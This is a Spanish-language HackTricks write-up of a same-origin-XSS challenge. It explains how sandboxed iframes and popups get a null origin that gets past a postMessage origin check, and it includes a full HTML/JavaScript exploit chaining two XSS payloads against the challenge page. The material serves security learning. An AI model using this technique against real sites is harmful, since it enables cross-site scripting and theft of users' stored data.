 # Bypassing SOP with Iframes - 1

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Iframes in SOP-1

En este [**desafío**](https://github.com/terjanq/same-origin-xss) creado por [**NDevTK**](https://github.com/NDevTK) y [**Terjanq**](https://github.com/terjanq) necesitas explotar un XSS en el código.
```javascript
const identifier = '4a600cd2d4f9aa1cfb5aa786';
onmessage = e => {
const data = e.data;
if (e.origin !== window.origin && data.identifier !== identifier) return;
if (data.type === 'render') {
renderContainer.innerHTML = data.body;
}
}
```
El problema principal es que la [**página principal**](https://so-xss.terjanq.me) utiliza DomPurify para enviar el `data.body`, por lo que, para enviar tus propios datos html a ese código, necesitas **bypassear** `e.origin !== window.origin`.

Veamos la solución que proponen.

### Bypass SOP 1 (e.origin === null)

Cuando `//example.org` está incrustado en un **iframe sandboxed**, entonces el **origen** de la página será **`null`**, es decir, **`window.origin === null`**. Así que, simplemente al incrustar el iframe a través de `<iframe sandbox="allow-scripts" src="https://so-xss.terjanq.me/iframe.php">` podríamos **forzar el origen `null`**.

Si la página fuera **incrustable**, podrías eludir esa protección de esa manera (las cookies también podrían necesitar ser configuradas a `SameSite=None`).

### Bypass SOP 2 (window.origin === null)

El hecho menos conocido es que cuando se establece el **valor de sandbox `allow-popups`**, entonces el **popup abierto** **heredará** todos los **atributos sandboxed** a menos que se establezca `allow-popups-to-escape-sandbox`.\
Por lo tanto, abrir un **popup** desde un **origen nulo** hará que **`window.origin`** dentro del popup también sea **`null`**.

### Solución del Desafío

Por lo tanto, para este desafío, uno podría **crear** un **iframe**, **abrir un popup** a la página con el manejador de código XSS vulnerable (`/iframe.php`), ya que `window.origin === e.origin` porque ambos son `null`, es posible **enviar una carga útil que explotará el XSS**.

Esa **carga útil** obtendrá el **identificador** y enviará un **XSS** **de vuelta a la página principal** (la página que abrió el popup), **la cual** **cambiará de ubicación** a la **vulnerable** `/iframe.php`. Dado que el identificador es conocido, no importa que la condición `window.origin === e.origin` no se cumpla (recuerda, el origen es el **popup** del iframe que tiene **origen** **`null`**) porque `data.identifier === identifier`. Entonces, el **XSS se activará nuevamente**, esta vez en el origen correcto.
```html
<body>
<script>
f = document.createElement('iframe');

// Needed flags
f.sandbox = 'allow-scripts allow-popups allow-top-navigation';

// Second communication with /iframe.php (this is the top page relocated)
// This will execute the alert in the correct origin
const payload = `x=opener.top;opener.postMessage(1,'*');setTimeout(()=>{
x.postMessage({type:'render',identifier,body:'<img/src/onerror=alert(localStorage.html)>'},'*');
},1000);`.replaceAll('\n',' ');

// Initial communication
// Open /iframe.php in a popup, both iframes and popup will have "null" as origin
// Then, bypass window.origin === e.origin to steal the identifier and communicate
// with the top with the second XSS payload
f.srcdoc = `
<h1>Click me!</h1>
<script>
onclick = e => {
let w = open('https://so-xss.terjanq.me/iframe.php');
onmessage = e => top.location = 'https://so-xss.terjanq.me/iframe.php';
setTimeout(_ => {
w.postMessage({type: "render", body: "<audio/src/onerror=\\"${payload}\\">"}, '*')
}, 1000);
};
<\/script>
`
document.body.appendChild(f);
</script>
</body>
```
{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}

